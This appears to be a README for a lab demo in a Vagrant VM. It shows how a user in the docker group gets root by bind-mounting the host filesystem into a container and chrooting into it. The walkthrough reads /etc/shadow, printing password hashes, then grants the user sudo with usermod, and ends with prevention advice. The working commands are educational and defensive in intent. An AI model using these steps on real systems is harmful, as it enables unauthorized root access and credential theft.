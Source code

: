 # Privilege Escalation
This demo walks you through how a non-privileged user with access to Docker can
get root access to the file system and elevate their privileges using intended
features.

## Start Here: Vagrant
(Make sure [Vagrant](https://www.vagrantup.com/) is installed)

Open a terminal and run the following command:
```sh
$ vagrant up
```
This will start up a virtual machine and install Docker Engine in it.

When the virtual machine is up, get a shell in the virtual machine as follows:
```sh
$ vagrant ssh
```

This will give you a shell for `user`.
The password for the user named "user" is `password` by default.

## Try it out
Let's attempt to access a typical target for attackers, the [shadow](https://man7.org/linux/man-pages/man5/shadow.5.html) file.

```sh
user@ubuntu-jammy:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied
```

Well darn. How about using sudo? The password is `password`
```sh
user@ubuntu-jammy:~$ sudo cat /etc/shadow
[sudo] password for user: 
user is not in the sudoers file.  This incident will be reported.
```
Darn again! But take a look at this:
```sh
user@ubuntu-jammy:~$ groups
user docker
```
We have the docker group! Let's abuse this.

## Testing out Docker
Let's give Docker a whirl.
```sh
user@ubuntu-jammy:~$ docker --version
Docker version 20.10.21, build baeda1f
```
Looks promising. Let's run the `hello-world` image.
```sh
user@ubuntu-jammy:~$ docker run hello-world
Unable to find image 'hello-world:latest' locally
latest: Pulling from library/hello-world
2db29710123e: Pull complete 
Digest: sha256:faa03e786c97f07ef34423fccceeec2398ec8a5759259f94d99078f264e9d7af
Status: Downloaded newer image for hello-world:latest

Hello from Docker!
This message shows that your installation appears to be working correctly.

To generate this message, Docker took the following steps:
 1. The Docker client contacted the Docker daemon.
 2. The Docker daemon pulled the "hello-world" image from the Docker Hub.
    (amd64)
 3. The Docker daemon created a new container from that image which runs the
    executable that produces the output you are currently reading.
 4. The Docker daemon streamed that output to the Docker client, which sent it
    to your terminal.

To try something more ambitious, you can run an Ubuntu container with:
 $ docker run -it ubuntu bash

Share images, automate workflows, and more with a free Docker ID:
 https://hub.docker.com/

For more examples and ideas, visit:
 https://docs.docker.com/get-started/
```

Awesome! We have the ability to user Docker without sudo, because we are in the
`docker` linux group.

## Background on Docker
Docker by default has some security issues, such as:
- The Docker daemon runs as the user `root`. This can be abused.
- Docker has this awesome feature called "mounts". It allows you to connect
parts of the host file system to your Docker container. These respect the file
permissions on the host operating system.
- In a Docker container, the `root` user is considered to be the host `root`
user.

So let's use this knowledge for potentially nefarious purposes.

## Abusing Docker
Let's make a new Docker Container. It can be really any image as long as you
can get a root shell in the container.

We will run a new Docker container based on the [Ubuntu image](https://hub.docker.com/_/ubuntu) and attach it to our terminal, and mount the whole host filesystem to the folder `/mnt` on the container
```sh
user@ubuntu-jammy:~$ docker run -i --mount type=bind,source=/,target=/mnt ubuntu
Unable to find image 'ubuntu:latest' locally
latest: Pulling from library/ubuntu
e96e057aae67: Pull complete 
Digest: sha256:4b1d0c4a2d2aaf63b37111f34eb9fa89fa1bf53dd6e4ca954d47caebca4005c2
Status: Downloaded newer image for ubuntu:latest

```
And we now have a shell inside the Ubuntu container, though it may not look like it. Type `whoami` in the terminal.
```sh
whoami
root
```
Lovely.
## This used to be protected
Remember how we mounted the filesystem to the folder `/mnt`? Let's take a look
```
chroot /mnt
```
This makes it look like we are in the actual host operating system.

Now, let's see if we can see that shadow file we wanted earlier.
```
# cat /etc/shadow
root:*:19320:0:99999:7:::
daemon:*:19320:0:99999:7:::
bin:*:19320:0:99999:7:::
sys:*:19320:0:99999:7:::
  <-- trim -->
vagrant:$y$j9T$2AlJfhokmGY4.iL/XQha..$1QPVY3E3QbaAhiQZFqjxKtTOHpIhF91xnJO83s8d252:19320:0:99999:7:::
ubuntu:!:19326:0:99999:7:::
lxd:!:19326::::::
user:$y$j9T$ZkAsh0tesBHBGkO3BGRmW1$d/E4cTqN.7HujxUmeO2oWvfis2wA3jpwPyvV8PKUwP4:19327:0:99999:7:::
```
(output trimmed for brevity)

We aren't supposed to see this! Remember, just before we got an "Access Denied",
but now we have root privileges.

## And escape.
Let's give ourselves sudo privileges, too. Add the group "sudo" to the user
"user".
```
# sudo usermod -a -G sudo user         
sudo: unable to resolve host 59c4f2066b5f: Temporary failure in name resolution
```
At first it seems to have failed, but let's log out.

Type `exit` three times to exit the chroot, then the container, then log out
from the virtual machine. Then, run `vagrant ssh` on your host machine again.

Once in, run the command `groups` to see your groups
```sh
user@ubuntu-jammy:~$ groups
user sudo docker
```
Amazing! Let's try it out. Remember the password for `user` is `password`
```
user@ubuntu-jammy:~$ sudo su -
[sudo] password for user:
root@ubuntu-jammy:~#
```
I believe we have sufficiently conquered the host.

## Cleaning up
Delete the virtual machine using the following command on your host system:
```sh
vagrant destroy
```

# Aftermath
So we have, with an unprivileged user:
- Created a Docker container with a mount
- Viewed files we were not supposed to
- Gave ourselves sudo access
- Got a root shell

With just the `docker` group for our user.

## Prevention
So this is obviously terrible for whoever owns the machine. But, it is fairly
easy to protect against.
- Only give trusted users the `docker` group.
- Restrict Docker usage to root only (and access via `sudo`)
- Use [User-Namespace remapping](https://docs.docker.com/engine/security/userns-remap/)
